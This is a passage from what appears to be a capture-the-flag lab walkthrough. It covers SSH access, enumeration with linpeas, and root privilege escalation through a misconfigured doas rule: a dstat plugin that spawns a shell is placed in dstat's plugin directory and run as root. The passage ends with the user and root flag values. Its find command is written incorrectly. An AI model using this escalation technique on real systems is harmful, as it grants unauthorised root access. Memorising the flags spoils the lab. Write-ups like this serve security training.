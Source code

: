 ## SSHing Into the User Found In the Database

Use SSH with the username and password from the previous section to access the user.
The user will have the user flag.

Navgivate to the tmp directory and download *linpeas* and then run the linpeas script and wait until the user and system have been enumerated for vulnerabilities.

We find through the linpeas output that there is a utility program called *doas* that allows a user account to run a command as another user account.

Create a new python file with the name *dstat_[anything you want].py*
Inside the script paste the following which creates a shell:
*import os\
os.system("sh")\*

Now use the following command to find the directiories with the name dstat.

**Command:** *find / type -d -name dstat 2>/dev/null*

**Command Description:**\
* / : Look for all files/directories
*  type -d : Look for directories
*  -name : The name you looking for
*  2>/dev/null : Redirects errors to /dev/null instead of showing them on screen

**Results:**\
4 directories are displayed, */usr/local/share/dstat* is the one we are interested in.

Copy the previously created python script from its location to the dstat directory location */usr/local/share/dstat* using *cp* 

**Command:** *cp dstat_privesc.py /usr/local/share/dstat*

Then run the following command to list the dstat files using the following command.

**Command:** *dstat --list*

**Results:**\
On the bottom of the displayed results, the relevant result is returned which is the name that was given to the python script after *dstat_*. (In my case under the /usr/local/share/dstat results it displayed *privesc*).

This confirms that dstat recognizes the python script.

## Running the Vulnerable Service (doas)

Type the following command (remember to insert the name of the script that was recieved from running the command dstat --list, in my case it is *privesc*) to get root and then navigate to the root directory to recieve the root flag.

**Command:** *doas -u root /usr/bin/dstat --privesc*

**Results:**\
BOOM, YOU ARE ROOT!


# Goals

* USER Flag: 73a57d7e814d39476159dbcb83f6694c
* ROOT Flag: c18e4872b8b0c59662cda8244f73c90d











